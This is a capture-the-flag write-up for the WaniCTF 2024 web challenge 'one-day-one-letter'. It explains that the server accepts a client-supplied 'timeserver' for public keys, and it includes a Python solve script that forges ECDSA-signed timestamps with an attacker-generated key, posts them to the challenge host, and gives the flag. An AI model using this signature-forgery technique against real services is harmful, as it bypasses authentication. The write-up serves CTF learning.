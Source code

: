 ```yaml
---
layout: post
title:  "one day one letter - wanictf 2024"
date:   2024-06-23 00:00:00 -0400
---
```


https://ctftime.org/event/2377

# one-day-one-letter (web)

The challenge consists of two servers, one that display some content and one that host both
the private and public keys.
The server doesnt validade the "timeserver" parameter though so we can just create our own pair of keys
and point to our server.

## Solution

```python
#!/usr/bin/env python3
import requests

from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import time

# gen key
# key = ECC.generate(curve='p256')
# open("key.txt", "w").write(key.export_key(format='PEM'))
# pubkey = key.public_key().export_key(format='PEM')
# open("pub.txt", "w").write(pubkey)
# host with whatever

REMOTE = "https://web-one-day-one-letter-content-lz56g6.wanictf.org/"

def make_body(adjust):
    key = open("key.txt", "rb").read()

    timestamp = str(int(time.time()) + adjust).encode("utf-8")
    h = SHA256.new(timestamp)
    key = ECC.import_key(key)
    signer = DSS.new(key, "fips-186-3")
    signature = signer.sign(h)
    return (timestamp, signature)

for i in range(0, 12):
    timestamp, signature = make_body(-90000 * i) 

    res = requests.post(
        REMOTE,
        json={
            "timestamp": timestamp.decode(),
            "signature": signature.hex(),
            "timeserver": "<hostname>",
        },
    )
    print(f"DEBUGPRINT[1]: solve.py:27: res.text={res.text}")
```

## Flag
`FLAG{lyingthetime}`

shafouz 2024/06/23
